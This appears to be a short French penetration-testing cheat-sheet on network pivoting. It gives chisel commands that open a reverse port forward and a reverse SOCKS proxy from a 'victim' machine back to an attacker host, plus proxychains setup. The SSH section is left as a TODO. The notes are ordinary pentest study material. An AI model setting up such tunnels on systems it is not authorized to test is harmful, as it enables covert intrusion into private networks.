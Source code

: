 # Proxychain

> Pivoter dans le réseau via la machine hôte.
>
> Permet de faciliter les tests (e.g. accès à l'interface graphique pour un service web) et de donner accès à ses propres outils (si pas présent sur la cible par exemple).



### 1. Chisel

- **Port forwarding (accéder à un service ne tournant qu'en local sur une machine cible) avec l'exécutable [chisel][1]**:

  - Hôte :

    ```bash
    $ ./chisel server -p 9999 --reverse [open]
    ```

  - Cible :

    ```bash
    $ ./chisel client [IP_HOTE]:9999 R:127.0.0.1:9998:[IP_A_RENDRE_ACCESSIBLE]:[PORT_A_RENDRE_ACCESSIBLE]
    ```

    Explication  :

    - Le serveur (*machine de l'attaquant*) ouvre un port 
    - Le client (*machine victime*) s'y connecte
    - Le client créer une règle de port forwarding vers l'ip remote (ici, il dit au serveur qu'il est possible d'accéder à remote_ip:remote_port en requêtant sur 127.0.0.1:9998)

- **Proxy socks pour accéder à au réseau de la machine cible et à l'ensemble de ses ports notamment** (on prend la place de la machine) :

  - Hôte :

    ```bash
    $ ./chisel server -p 8000 --reverse
    ```

  - Cible :

    ```powershell
    .\chisel.exe client <IP_HOTE>:8000 R:1080:socks
    ```

  - Hôte :

    ```bash
    # Mettre la ligne suivante à la fin du fichier /etc/proxychains4
    # socks5  127.0.0.1 1080
    $ proxychains <COMMAND>
    ```

### 2. SSH

**TODO**



## References

[1]: https://www.youtube.com/watch?v=Yp4oxoQIBAM
